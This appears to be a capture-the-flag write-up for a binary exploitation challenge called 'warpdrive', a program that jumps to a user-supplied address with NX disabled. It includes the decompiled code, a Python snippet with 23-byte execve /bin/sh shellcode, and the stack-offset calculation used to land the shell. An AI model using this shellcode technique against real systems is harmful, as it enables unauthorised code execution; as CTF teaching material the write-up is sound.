


# warpdrive



This challenge is pretty straightforward.

Here is the Ghidra decompilation:

```c
undefined8 main(void)
{
  long in_FS_OFFSET;
  code *jump;
  char target [40];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  printf("CURRENT POSITION: %p\nWARP TO:",&jump);
  fgets(target,40,stdin);
  __isoc99_sscanf(target,&%p,&jump);
  (*jump)();
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The only relevant part is 

```c
printf("CURRENT POSITION: %p\nWARP TO:",&jump);
fgets(target,40,stdin);
__isoc99_sscanf(target,&%p,&jump);
(*jump)();
```

This is obvious a shellcode challenge, since it ask us for an address, and jumps to it.

NX is disabled, allowing us to execute code on the stack.



By the way, `__isoc99_sscanf(target,&%p,&jump);` is just converting a hex pointer to integer value. After that, the program `(*jump)();` jumps there.

Do note that the shellcode that comes with `shellcraft` is 48 bytes long and is too big. 

We can find a shorter, 23 bytes long one [here](https://www.exploit-db.com/shellcodes/46907).

Do note that they also give us the address of the stack with  `printf("CURRENT POSITION: %p\nWARP TO:",&jump);`.

Here is how we are gonna get our shell:

```py
stack = int(p.recvline(), 16)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";

payload = hex(stack + 24).encode() + b' ' + shellcode
```

`stack` is the address of the variable `jump`. We want to call our shellcode, which will be in the `target` variable. with some simple math, the offset of our shellcode is `8 (length of jump variable) + 16 (length of hex of addr) = 24`

So we will jump to `stack+24`.

Full solution in `wardrive.py`